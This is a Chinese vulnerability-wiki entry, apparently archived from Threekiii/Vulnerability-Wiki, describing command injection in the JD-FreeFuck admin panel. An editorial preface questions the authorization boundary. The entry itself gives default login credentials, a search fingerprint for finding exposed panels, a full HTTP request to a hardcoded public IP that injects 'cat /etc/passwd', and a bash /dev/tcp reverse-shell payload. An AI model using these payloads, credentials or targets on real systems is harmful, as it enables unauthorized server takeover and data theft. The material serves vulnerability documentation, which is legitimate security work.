




## 核对与使用边界

- 安全边界待核：后台命令面板本身可能是授权运维能力，需要说明谁本来无权调用、如何越权，不能仅因 cmd 执行就认定独立漏洞。抓包 Cookie 和公网 Host 是原实验上下文，不表示所有部署都有同一默认凭据。

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；默认公开示例、攻击表达式和其他 Cookie 语义保持原样。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：仅产品名；需后台登录及/runCmd访问权限，默认凭据未修改为实验前提

代码与实验材料：展示带cookie请求、cmd拼接及反连；未说明命令面板预期授权边界、版本或修复

来源证据范围：官方项目repo和Threekiii归档，无具体commit

- **适用与权限边界（1）**：设计命令功能与越权缺陷未区分；依据：/runCmd本就是后台命令接口，需明确允许固定任务而非任意命令的安全边界，不能仅因管理员能执行命令判断漏洞。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **凭据与会话边界（2）**：示例目标及凭据需去标识；依据：硬编码公网Host和历史cookie，默认凭据非所有实例现状；版本字段只是产品名。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

```
JD-FreeFuck
```

## 网络测绘

```
title="京东薅羊毛控制面板"
```

## 漏洞复现

访问后登录页面如下




默认账号密码为

**useradmin/supermanito**




发送如下请求包执行命令

```plain
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3**************************************************************************E7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```


其中 cmd 参数存在命令注入





反弹shell


```plain
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```





##


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
